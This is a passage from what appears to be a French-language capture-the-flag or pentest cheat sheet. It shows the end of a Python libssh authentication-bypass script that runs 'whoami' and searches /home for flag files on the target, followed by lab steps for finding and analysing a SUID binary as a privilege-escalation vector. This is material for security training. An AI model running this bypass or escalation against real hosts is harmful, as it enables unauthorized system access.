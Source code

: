 ```python
        
        print(f"[+] Successfully bypassed authentication on {host}")
        
        # Enumération immédiate
        stdin, stdout, stderr = ssh.exec_command('whoami')
        print(f"User: {stdout.read().decode().strip()}")
        
        # Recherche de flags
        stdin, stdout, stderr = ssh.exec_command('find /home -name "*flag*" 2>/dev/null')
        print(f"Flags found: {stdout.read().decode().strip()}")
        
        return ssh
    except Exception as e:
        print(f"[-] Bypass failed: {e}")
        return None

if len(sys.argv) != 2:
    print("Usage: python3 libssh_bypass.py <target>")
    sys.exit(1)

ssh = libssh_bypass(sys.argv[1])
```

---

## 👑 13. Escalade SUID avancée (Welcome Binary Lab)

### Détection de binaires SUID personnalisés (Lab method)
```bash
# Recherche dans répertoire utilisateur
ls -la
# Identifier des binaires avec SUID bit : -rwsr-xr-x

# Vérification spécifique
ls -la welcome
# -rwsr-xr-x 1 root root 8760 Nov 14  2024 welcome

# Analyse du type de fichier
file welcome
# welcome: ELF 64-bit LSB executable, x86-64
```

### Analyse du binaire vulnérable (Méthode Lab)
```bash
# Analyse des chaînes de caractères
strings welcome
# Rechercher des appels de programmes externes
# Résultat typique: le binaire appelle "greetings"

# Vérification des appels système
strace ./welcome 2>&1 | grep execve
# Identifier les binaires/scripts appelés

# Test d'exécution normal
./welcome
# Observer le comportement standard
```
